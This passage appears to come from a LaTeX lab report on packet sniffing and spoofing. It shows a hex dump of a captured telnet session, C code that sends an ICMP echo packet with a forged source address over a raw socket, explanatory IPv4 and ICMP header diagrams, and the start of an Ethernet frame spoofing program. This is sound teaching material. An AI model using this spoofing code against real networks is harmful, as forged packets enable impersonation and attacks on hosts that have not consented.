Packet number 53:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37647
   Dst port: 23

Packet number 54:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37647
   Payload (632 bytes):
00000   0d 0a 0d 0a 20 2a 20 44  6f 63 75 6d 65 6e 74 61    .... * Documenta
00016   74 69 6f 6e 3a 20 20 68  74 74 70 73 3a 2f 2f 68    tion:  https://h
00032   65 6c 70 2e 75 62 75 6e  74 75 2e 63 6f 6d 2f 0d    elp.ubuntu.com/.
00048   0a 0d 0a 4e 65 77 20 72  65 6c 65 61 73 65 20 27    ...New release '
00064   31 34 2e 30 34 2e 35 20  4c 54 53 27 20 61 76 61    14.04.5 LTS' ava
00080   69 6c 61 62 6c 65 2e 0d  0a 52 75 6e 20 27 64 6f    ilable...Run 'do
00096   2d 72 65 6c 65 61 73 65  2d 75 70 67 72 61 64 65    -release-upgrade
00112   27 20 74 6f 20 75 70 67  72 61 64 65 20 74 6f 20    ' to upgrade to 
00128   69 74 2e 0d 0a 0d 0a 0d  0a 0d 0a 59 6f 75 72 20    it.........Your 
00144   63 75 72 72 65 6e 74 20  48 61 72 64 77 61 72 65    current Hardware
00160   20 45 6e 61 62 6c 65 6d  65 6e 74 20 53 74 61 63     Enablement Stac
00176   6b 20 28 48 57 45 29 20  69 73 20 6e 6f 20 6c 6f    k (HWE) is no lo
00192   6e 67 65 72 20 73 75 70  70 6f 72 74 65 64 0d 0a    nger supported..
00208   73 69 6e 63 65 20 32 30  31 34 2d 30 38 2d 30 37    since 2014-08-07
00224   2e 20 20 53 65 63 75 72  69 74 79 20 75 70 64 61    .  Security upda
00240   74 65 73 20 66 6f 72 20  63 72 69 74 69 63 61 6c    tes for critical
00256   20 70 61 72 74 73 20 28  6b 65 72 6e 65 6c 0d 0a     parts (kernel..
00272   61 6e 64 20 67 72 61 70  68 69 63 73 20 73 74 61    and graphics sta
00288   63 6b 29 20 6f 66 20 79  6f 75 72 20 73 79 73 74    ck) of your syst
00304   65 6d 20 61 72 65 20 6e  6f 20 6c 6f 6e 67 65 72    em are no longer
00320   20 61 76 61 69 6c 61 62  6c 65 2e 0d 0a 0d 0a 46     available.....F
00336   6f 72 20 6d 6f 72 65 20  69 6e 66 6f 72 6d 61 74    or more informat
00352   69 6f 6e 2c 20 70 6c 65  61 73 65 20 73 65 65 3a    ion, please see:
00368   0d 0a 68 74 74 70 3a 2f  2f 77 69 6b 69 2e 75 62    ..http://wiki.ub
00384   75 6e 74 75 2e 63 6f 6d  2f 31 32 30 34 5f 48 57    untu.com/1204_HW
00400   45 5f 45 4f 4c 0d 0a 0d  0a 54 68 65 72 65 20 69    E_EOL....There i
00416   73 20 61 20 67 72 61 70  68 69 63 73 20 73 74 61    s a graphics sta
00432   63 6b 20 69 6e 73 74 61  6c 6c 65 64 20 6f 6e 20    ck installed on 
00448   74 68 69 73 20 73 79 73  74 65 6d 2e 20 41 6e 20    this system. An 
00464   75 70 67 72 61 64 65 20  74 6f 20 61 20 0d 0a 73    upgrade to a ..s
00480   75 70 70 6f 72 74 65 64  20 28 6f 72 20 6c 6f 6e    upported (or lon
00496   67 65 72 20 73 75 70 70  6f 72 74 65 64 29 20 63    ger supported) c
00512   6f 6e 66 69 67 75 72 61  74 69 6f 6e 20 77 69 6c    onfiguration wil
00528   6c 20 62 65 63 6f 6d 65  20 61 76 61 69 6c 61 62    l become availab
00544   6c 65 0d 0a 6f 6e 20 32  30 31 34 2d 30 37 2d 31    le..on 2014-07-1
00560   36 20 61 6e 64 20 63 61  6e 20 62 65 20 69 6e 76    6 and can be inv
00576   6f 6b 65 64 20 62 79 20  72 75 6e 6e 69 6e 67 20    oked by running 
00592   27 75 70 64 61 74 65 2d  6d 61 6e 61 67 65 72 27    'update-manager'
00608   20 69 6e 20 74 68 65 0d  0a 44 61 73 68 2e 0d 0a     in the..Dash...
00624   20 20 20 20 0d 0a 0d 0a                                 ....

Packet number 55:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37647
   Dst port: 23

Packet number 56:
       From: 192.168.43.157
         To: 192.168.43.167
   Protocol: TCP
   Src port: 23
   Dst port: 37647
   Payload (34 bytes):
00000   5b 30 38 2f 30 34 2f 32  30 31 38 20 30 30 3a 33    [08/04/2018 00:3
00016   36 5d 20 73 65 65 64 40  75 62 75 6e 74 75 3a 7e    6] seed@ubuntu:~
00032   24 20                                               $ 

Packet number 57:
       From: 192.168.43.167
         To: 192.168.43.157
   Protocol: TCP
   Src port: 37647
   Dst port: 23

\end{verbatim}

\newpage
\section{Appendix B}

\subsection{ICMP Spoofing}
\label{ch:ICMPSpoof}
\begin{minted}[linenos,breaklines]{C}
/* Brandon - Fixed ICMP Checksum problem */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <netdb.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/socket.h>

#include <netinet/in_systm.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <netinet/ip_icmp.h>
#include <netinet/tcp.h>

#include <arpa/inet.h>

#define SRC_ADDR "192.168.142.153"
#define DST_ADDR "172.16.87.254"
#define ICMPID 0xffff
#define ICMPSEQ 0x1234

/* Referenced from https://www.tenouk.com/Module43a.html */
unsigned short csum(unsigned short *buf, int nwords)
{
        unsigned long sum;
        for(sum=0; nwords>0; nwords--)
                sum += *buf++;
        sum = (sum >> 16) + (sum &0xffff);
        sum += (sum >> 16);
        return (unsigned short)(~sum);
}

int main(int argc, char **argv)
{
  struct ip ip;
  struct icmp icmp;
  int sd;
  const int on = 1;
  struct sockaddr_in sin;
  u_char* packet;

  // Allocate some space for our packet:
  packet = (u_char *)malloc(60);
  
  /* IP Layer header construct: Referenced from https://www.tenouk.com/Module42.html */

  ip.ip_hl = 0x5; /* Header length (in 32 bits), 160 bits w/o options: 160/32 */
  ip.ip_v = 0x4;  /* IPv4 */
  ip.ip_tos = 0x0; /* Type of Service */
  ip.ip_len = htons(60); /* Length of entire packet in bytes */
  ip.ip_id = 0; /* Identification field to reassemble fragments of a datagram */
  ip.ip_off = 0x0; /* Fragmentation, set to 0 since no fragments */
  ip.ip_ttl = 64; /* Time To Live */
  ip.ip_p = IPPROTO_ICMP; /* Protocol Number, RFC 1700 */
  ip.ip_sum = 0x0; /* Exclude when calculating checksum first */
  ip.ip_src.s_addr = inet_addr(SRC_ADDR); /* Source IP */
  ip.ip_dst.s_addr = inet_addr(DST_ADDR); /* Destination IP */
  ip.ip_sum = csum((unsigned short *)&ip, sizeof(ip)); /* Checksum calculation */
  memcpy(packet, &ip, sizeof(ip)); /* Copy header into packet */
  
  
  //ICMP header construct, Reference RFC 792
  
  icmp.icmp_type = ICMP_ECHO; /* Type 8 for echo */
  icmp.icmp_code = 0; /* No code for echo/reply, leave as 0 */
  icmp.icmp_id = htons(ICMPID); /* Random identifier to match echos & replies */
  icmp.icmp_seq = htons(ICMPSEQ); /* Random sequence number to match echos & replies */
  icmp.icmp_cksum = 0; /* Exclude when calculating checksum first */
  icmp.icmp_cksum = csum((unsigned short *)&icmp, sizeof(&icmp)); /* Checksum Calculation */
  memcpy(packet + 20, &icmp, 8); /* Append the ICMP header to the packet at offset 20 */
  
  /* Create raw socket:*/
  if ((sd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
    perror("raw socket");
    exit(1);
  }
  
  /* Prevent kernel from filling up packet with its information*/
  if (setsockopt(sd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0) {
    perror("setsockopt");
    exit(1);
  }
  
  /* Specify destination in kernel to send the raw datagram. We fill in a struct in_addr with the desired destination IP address and pass this structure to the sendto(2) or sendmsg(2) system calls:*/
  
  memset(&sin, 0, sizeof(sin));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = ip.ip_dst.s_addr;
  
  /*send(2) system call cannot be used as the socket is not a "connected" type of socket. A destination is needed to send the raw IP datagram. sendto(2) and sendmsg(2) system calls are designed to handle this:*/
  if (sendto(sd, packet, 60, 0, (struct sockaddr *)&sin, 
	     sizeof(struct sockaddr)) < 0)  {
    perror("sendto");
    exit(1);
  }
  
  return 0;
}
\end{minted}
\newpage

\restoregeometry
\subsection{Explanation (For Selected Parts) - Appendix A}

Lines 49 -- 60 creates the structure required for the IPv4 header, which is illustrated in the figure below\footnote[1]{\url{https://nmap.org/book/tcpip-ref.html}\label{foot1}}.
		\begin{figure}[H]
			\centering
			\tikzset{>=stealth'}
			
\begin{tikzpicture}
			
			\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
			\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-10.6);
			\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
			\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-10.6);
			\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
			\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-10.6);
			\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
			\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-10.6);
			\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
			\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-10.6);
			\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
			
			\draw[line width=0.2mm](0.4,0.2) -- (0.4,-10.2);
			\draw[line width=0.2mm](0.8,0.2) -- (0.8,-10.2);
			\draw[line width=0.2mm](1.2,0.2) -- (1.2,-10.2);
			\draw[line width=0.4mm](1.6,0.35) -- (1.6,-10.35);
			\draw[line width=0.2mm](2,0.2) -- (2,-10.2);
			\draw[line width=0.2mm](2.4,0.2) -- (2.4,-10.2);
			\draw[line width=0.2mm](2.8,0.2) -- (2.8,-10.2);
			
			\draw[line width=0.2mm](3.6,0.2) -- (3.6,-10.2);
			\draw[line width=0.2mm](4,0.2) -- (4,-10.2);
			\draw[line width=0.2mm](4.4,0.2) -- (4.4,-10.2);
			\draw[line width=0.4mm](4.8,0.35) -- (4.8,-10.35);
			\draw[line width=0.2mm](5.2,0.2) -- (5.2,-10.2);
			\draw[line width=0.2mm](5.6,0.2) -- (5.6,-10.2);
			\draw[line width=0.2mm](6,0.2) -- (6,-10.2);
			
			\draw[line width=0.2mm](6.8,0.2) -- (6.8,-10.2);
			\draw[line width=0.2mm](7.2,0.2) -- (7.2,-10.2);
			\draw[line width=0.2mm](7.6,0.2) -- (7.6,-10.2);
			\draw[line width=0.4mm](8,0.35) -- (8,-10.35);
			\draw[line width=0.2mm](8.4,0.2) -- (8.4,-10.2);
			\draw[line width=0.2mm](8.8,0.2) -- (8.8,-10.2);
			\draw[line width=0.2mm](9.2,0.2) -- (9.2,-10.2);
			
			\draw[line width=0.2mm](10,0.2) -- (10,-10.2);
			\draw[line width=0.2mm](10.4,0.2) -- (10.4,-10.2);
			\draw[line width=0.2mm](10.8,0.2) -- (10.8,-10.2);
			\draw[line width=0.4mm](11.2,0.35) -- (11.2,-10.35);
			\draw[line width=0.2mm](11.6,0.2) -- (11.6,-10.2);
			\draw[line width=0.2mm](12,0.2) -- (12,-10.2);
			\draw[line width=0.2mm](12.4,0.2) -- (12.4,-10.2);
			
			\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
			\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 32};
			\draw[line width=0.5mm] (0,-3.4) -- (-0.5,-3.4);
			\draw (-0.5,-3.4) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 64};
			\draw[line width=0.5mm] (0,-5.1) -- (-0.5,-5.1);
			\draw (-0.5,-5.1) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 96};
			\draw[line width=0.5mm] (0,-6.8) -- (-0.5,-6.8);
			\draw (-0.5,-6.8) node[xshift=-0.2cm, yshift=-0.3cm]{\color{red} 128};
			\draw[line width=0.5mm] (0,-8.5) -- (-0.5,-8.5);
			\draw (-0.5,-8.5) node[xshift=-0.2cm, yshift=-0.3cm]{\color{red} 160};
			
			%First Row
			\draw[fill=white!50] (0,0) rectangle node{\footnotesize Version} (1.59,-1.5);
			\draw[fill=white!50] (1.61,0) rectangle node[align=center, text width=1.57cm]{\footnotesize Header\\Length (IHL)} (3.18,-1.5);
			\draw[fill=white!50] (3.22,0) rectangle node[align=center,text width=3.16cm]{\footnotesize Type of\\Service (TOS)} (6.38,-1.5);
			\draw[fill=white!50] (6.42,0) rectangle node{\footnotesize Total Length} (12.8,-1.5);
			
			%Second Row
			\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Identification} (6.38,-3.2);
			\draw[fill=white!50] (6.42,-1.7) rectangle node[align=center,text width=1.16cm]{\footnotesize IP\\ Flags} (7.6,-3.2);
			\draw[fill=white!50] (7.6,-1.7) rectangle node{\footnotesize Fragment Offset} (12.8,-3.2);
			
			%Third Row
			\draw[fill=white!50] (0,-3.4) rectangle node[align=center,text width=3.18cm]{\footnotesize Time To\\ Live (TTL)} (3.18,-4.9);
			\draw[fill=white!50] (3.22,-3.4) rectangle node{\footnotesize Protocol} (6.38,-4.9);
			\draw[fill=white!50] (6.42,-3.4) rectangle node{\footnotesize Header Checksum} (12.8,-4.9);
			
			%Fourth Row
			\draw[fill=white!50] (0,-5.1) rectangle node{\footnotesize Source Address} (12.8,-6.6);
			
			%Fifth Row
			\draw[fill=white!50] (0,-6.8) rectangle node{\footnotesize Destination Address}(12.8,-8.3);
			
			%Sixth Row
			\draw[fill=white!50] (0,-8.5) rectangle node{\footnotesize IP Option (variable length, optional)}(12.8,-10);

			\end{tikzpicture}
			\caption{IPv4 Header}
				\label{fig:IPv4Head}
			\end{figure}
			\noindent Extensive information on the IPv4 header and its field definitions can be found on AIT's WordPress site\footnote[2]{\url{https://advancedinternettechnologies.wordpress.com/ipv4-header/}}.\\\\
			Lines 66 -- 71 creates the structure for the ICMP packet header that is relevant to our echo/echo reply, which is illustrated in the figure below. For other ICMP message types, RFC 792 provides the relevant headers required\footnote[3]{\href{https://tools.ietf.org/html/rfc792}{RFC 792}}. 
			\begin{figure}[H]
			\centering
			\tikzset{>=stealth'}
			
\begin{tikzpicture}
			\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
			\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-5.5);
			\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
			\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-5.5);
			\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
			\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-5.5);
			\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
			\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-5.5);
			\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
			\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-5.5);
			\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
			
			\draw[line width=0.2mm](0.4,0.2) -- (0.4,-5.1);
			\draw[line width=0.2mm](0.8,0.2) -- (0.8,-5.1);
			\draw[line width=0.2mm](1.2,0.2) -- (1.2,-5.1);
			\draw[line width=0.4mm](1.6,0.35) -- (1.6,-5.25);
			\draw[line width=0.2mm](2,0.2) -- (2,-5.1);
			\draw[line width=0.2mm](2.4,0.2) -- (2.4,-5.1);
			\draw[line width=0.2mm](2.8,0.2) -- (2.8,-5.1);
			
			\draw[line width=0.2mm](3.6,0.2) -- (3.6,-5.1);
			\draw[line width=0.2mm](4,0.2) -- (4,-5.1);
			\draw[line width=0.2mm](4.4,0.2) -- (4.4,-5.1);
			\draw[line width=0.4mm](4.8,0.35) -- (4.8,-5.25);
			\draw[line width=0.2mm](5.2,0.2) -- (5.2,-5.1);
			\draw[line width=0.2mm](5.6,0.2) -- (5.6,-5.1);
			\draw[line width=0.2mm](6,0.2) -- (6,-5.1);
			
			\draw[line width=0.2mm](6.8,0.2) -- (6.8,-5.1);
			\draw[line width=0.2mm](7.2,0.2) -- (7.2,-5.1);
			\draw[line width=0.2mm](7.6,0.2) -- (7.6,-5.1);
			\draw[line width=0.4mm](8,0.35) -- (8,-5.25);
			\draw[line width=0.2mm](8.4,0.2) -- (8.4,-5.1);
			\draw[line width=0.2mm](8.8,0.2) -- (8.8,-5.1);
			\draw[line width=0.2mm](9.2,0.2) -- (9.2,-5.1);
			
			\draw[line width=0.2mm](10,0.2) -- (10,-5.1);
			\draw[line width=0.2mm](10.4,0.2) -- (10.4,-5.1);
			\draw[line width=0.2mm](10.8,0.2) -- (10.8,-5.1);
			\draw[line width=0.4mm](11.2,0.35) -- (11.2,-5.25);
			\draw[line width=0.2mm](11.6,0.2) -- (11.6,-5.1);
			\draw[line width=0.2mm](12,0.2) -- (12,-5.1);
			\draw[line width=0.2mm](12.4,0.2) -- (12.4,-5.1);
			
			\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
			\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 32};
			\draw[line width=0.5mm] (0,-3.4) -- (-0.5,-3.4);
			\draw (-0.5,-3.4) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 64};
			
			%First Row
			\draw[fill=white!50] (0,0) rectangle node{\footnotesize Type} (3.19,-1.5);
			\draw[fill=white!50] (3.21,0) rectangle node{\footnotesize Code} (6.4,-1.5);
			\draw[fill=white!50] (6.4,0) rectangle node{\footnotesize Checksum} (12.8,-1.5);
			
			%Second Row
			\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Identifier} (6.38,-3.2);
			\draw[fill=white!50] (6.42,-1.7) rectangle node{\footnotesize Sequence Number} (12.8,-3.2);
			
			%Third Row
			\draw[fill=white!50] (0,-3.4) rectangle node{\footnotesize Data (variable length)} (12.8,-4.9);
	
			\end{tikzpicture}
			
			\flushleft
			
			\textbf{Type~\textbar~Code: Name}\\
			%General ICMP header
			\hspace{8.7mm}0 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Echo Reply\\
			\iffalse 
			\hspace{8.7mm}3 \hspace{2mm}			-\hspace{9mm}\textbf{:}\hspace{2.2mm}Destination Unreachable\\
			\hspace{8.7mm} \hspace{3.6mm}			0\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Net Unreachable\\
			\hspace{8.7mm} \hspace{3.6mm}			1\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Host Unreachable\\
			\hspace{8.7mm} \hspace{3.6mm}			2\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Protocol Unreachable\\
			\hspace{8.7mm} \hspace{3.6mm}			3\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Port Unreachable\\
			\hspace{8.7mm} \hspace{3.6mm}			4\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Fragmentation Required and Don't Fragment (DF) Set\\
			\hspace{8.7mm} \hspace{3.6mm}			5\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Source Route Failed\\
			\hspace{8.7mm} \hspace{3.6mm}			6\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Destination Network Unknown\\
			\hspace{8.7mm} \hspace{3.6mm}			7\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Destination Host Unknown\\
			\hspace{8.7mm} \hspace{3.6mm}			8\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Source Host Isolated\\
			\hspace{8.7mm} \hspace{3.6mm}			9\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Network Administratively Prohibited\\
			\hspace{8.7mm} \hspace{3.6mm}			10\hspace{6.8mm}\textbf{:}\hspace{2.2mm}Host Administratively Prohibited\\
			\hspace{8.7mm} \hspace{3.6mm}			11\hspace{6.8mm}\textbf{:}\hspace{2.2mm}Network Unreachable for TOS\\
			\hspace{8.7mm} \hspace{3.6mm}			12\hspace{6.8mm}\textbf{:}\hspace{2.2mm}Host Unreachable for TOS\\
			\hspace{8.7mm} \hspace{3.6mm}			13\hspace{6.8mm}\textbf{:}\hspace{2.2mm}Communication Administratively Prohibited\\
			
			\hspace{8.7mm}4 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Source Quench\\
			
			\hspace{8.7mm}5 \hspace{2mm}			-\hspace{9mm}\textbf{:}\hspace{2.2mm}Redirect\\
			\hspace{8.7mm} \hspace{3.6mm}			0\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Redirect Datagram for Network\\
			\hspace{8.7mm} \hspace{3.6mm}			1\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Redirect Datagram for Host\\
			\hspace{8.7mm} \hspace{3.6mm}			2\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Redirect Datagram for TOS \& Network\\
			\hspace{8.7mm} \hspace{3.6mm}			3\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Redirect Datagram for TOS \& Host\\
			\fi
			\hspace{8.7mm}8 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Echo\\
			\iffalse
			\hspace{8.7mm}9 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Router Advertisement\\
			
			\hspace{6.7mm}10 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Router Selection\\
			
			\hspace{6.7mm}11 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Time Exceeded\\
			\hspace{8.7mm} \hspace{3.6mm}			0\hspace{8.8mm}\textbf{:}\hspace{2.2mm}TTL Exceeded\\
			\hspace{8.7mm} \hspace{3.6mm}			1\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Fragment Reassembly Time Exceeded\\
			
			\hspace{6.7mm}12 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Parameter Problem\\
			\hspace{8.7mm} \hspace{3.6mm}			0\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Pointer Problem\\
			\hspace{8.7mm} \hspace{3.6mm}			1\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Missing a Required Operand\\
			\hspace{8.7mm} \hspace{3.6mm}			2\hspace{8.8mm}\textbf{:}\hspace{2.2mm}Bad Length\\
			
			\hspace{6.7mm}13 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Timestamp\\
			
			\hspace{6.7mm}14 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Timestamp Reply\\
						
			\hspace{6.7mm}15 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Information Request\\
			
			\hspace{6.7mm}16 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Information Reply\\
						
			\hspace{6.7mm}17 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Address Mask Request\\
						
			\hspace{6.7mm}18 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Address Mask Reply\\
			
			\hspace{6.7mm}30 \hspace{2mm}			-\hspace{8.9mm}\textbf{:}\hspace{2.4mm}Traceroute\\
			\fi
			\caption{ICMP Echo(/Reply) Header}
				\label{fig:ICMPPack}
			\end{figure}
\newpage
\newgeometry{left=2cm,top=1cm, bottom=2cm}
\subsection{Ethernet Frame Spoofing}
\label{ch:EthSpoof}
\begin{minted}[linenos, breaklines]{C}
#include <sys/socket.h>
#include <linux/if_packet.h>
#include <linux/if_ether.h>
#include <linux/if_arp.h>
#include <stdio.h>
#include <stdlib.h>

//#define ETH_FRAME_LEN 1518

int main(){
  int s; /*socketdescriptor*/

  /*target address*/
  struct sockaddr_ll socket_address;
  
  /*buffer for ethernet frame*/
  void* buffer = (void*)malloc(ETH_FRAME_LEN);
  
  /*pointer to ethenet header*/
  unsigned char* etherhead = buffer;
  
  /*userdata in ethernet frame*/
  unsigned char* data = buffer + 14;
  
  /*another pointer to ethernet header*/
  struct ethhdr *eh = (struct ethhdr *)etherhead;
  
  int send_result = 0;
  
  /*our MAC address*/
  unsigned char src_mac[6] = {0x01, 0x02, 0x03, 0x04, 0x05, 0x06};
  /*Our/other MAC address*/
  unsigned char dest_mac[6] = {0x00, 0x0C, 0x29, 0xD3, 0x40, 0x37};
  
  /*prepare sockaddr_ll*/
  
  /*RAW communication*/
  socket_address.sll_family   = PF_PACKET;	
  /* No protocol above ethernet layer */
  socket_address.sll_protocol = htons(ETH_P_IP);	
  
  /*index of the network device
    see full code later how to retrieve it*/
  socket_address.sll_ifindex  = 2;
  
  /*ARP hardware identifier is ethernet*/
  socket_address.sll_hatype   = ARPHRD_ETHER;
  
